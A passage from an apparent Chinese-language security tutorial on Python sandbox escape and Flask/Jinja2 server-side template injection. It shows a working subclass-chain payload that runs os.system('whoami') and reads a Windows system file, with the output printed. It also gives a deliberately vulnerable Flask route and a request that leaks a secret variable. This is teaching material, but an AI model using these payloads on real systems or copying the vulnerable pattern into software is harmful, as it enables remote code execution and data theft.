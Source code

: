选取其中一个执行命令，`__mro__`输出父类，最后一个父类为object

```none
>>> ().__class__.__mro__[-1].__subclasses__()[72]<class 'site._Printer'>>>> ().__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['os'].system('whoami')misaki\user
```

读取文件

```none
>>> ().__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['__builtins__']['file']("C:\\windows\\win.ini").read()'; for 16-bit app support\n[fonts]\n[extensions]\n[mciextensions]\n[files]\n[Mail]\nMAPI=1\nCMCDLLNAME32=mapi32.dll\nCMC=1\nMAPIX=1\nMAPIXVER=1.0.0.1\nOLEMessagin
```

其中还可以执行的模块还有很多，比如使用含有`__builtins__`的其他模块，来调用加载的os等。

筛选代码来源：[Python沙箱逃逸总结](https://hatboy.github.io/2018/04/19/Python沙箱逃逸总结/#遍历找到其他的逃逸方法)

## SSTI

服务器端模板注入。既然谈到SSTI，在python中就要提一下flask，jinja2模板。此处利用网上一段代码

```none
from flask import Flaskfrom flask import request, render_template_string, render_templateapp = Flask(__name__)@app.route('/login')def hello_ssti():    person = {        'name': 'hello',        'secret': 'This_is_my_secret'    }    if request.args.get('name'):        person['name'] = request.args.get('name')    template = '<h2>Hello %s!</h2>' % person['name']    return render_template_string(template, person=person)    if __name__ == "__main__":    app.run(debug=True)
```

当如下请求的时候就会显示其他参数，比如secret

```none
http://127.0.0.1:5000/login?name={{person[%27secret%27]}}
```

其中的`render_template_string`和另一个模板函数`render_template`区别在第一个参数是否可以传入字符串，但是传入字符串就一定会有问题吗？修改template参数

```none
from flask import Flaskfrom flask import request, render_template_stringapp = Flask(__name__)@app.route('/login')def hello_ssti():    person = {        'name': 'hello',        'secret': 'This_is_my_secret'    }    if request.args.get('name'):        person['name'] = request.args.get('name')    template = '<h2>Hello {{person.name }}!</h2>'    return render_template_string(template, person=person)    if __name__ == "__main__":    app.run(debug=True)
```

做如下请求的时候，就会显示`Hello {{person['secret']}}!`，我们传入的参数被当作字符串显示出来。

```none
http://127.0.0.1:5000/login?name={{person[%27secret%27]}}
```

name参数传入后，先修改person中的name值，person变成

```none
person = {        'name': '{{person['secret']}}',        'secret': 'This_is_my_secret'    }
```

后面调用模板，来执行的时候，根据变量取值，又把`person.name`获取出来，传入`render_template_string`的就是`'<h2>Hello {{person.name}}!</h2>'`，取值后整体被当作字符串显示。这里跟上面格式化字符串的时候不一样的地方就出来了，当我们直接传入`{{person['secret']}}`的时候，调用模板变量取值的时候，先格式化字符串，把传入字符串当作变量来处理。也就是`'<h2>Hello {{person['secret']}}!</h2>'`加载到`render_template_string`。这又涉及到python的字符串格式化。
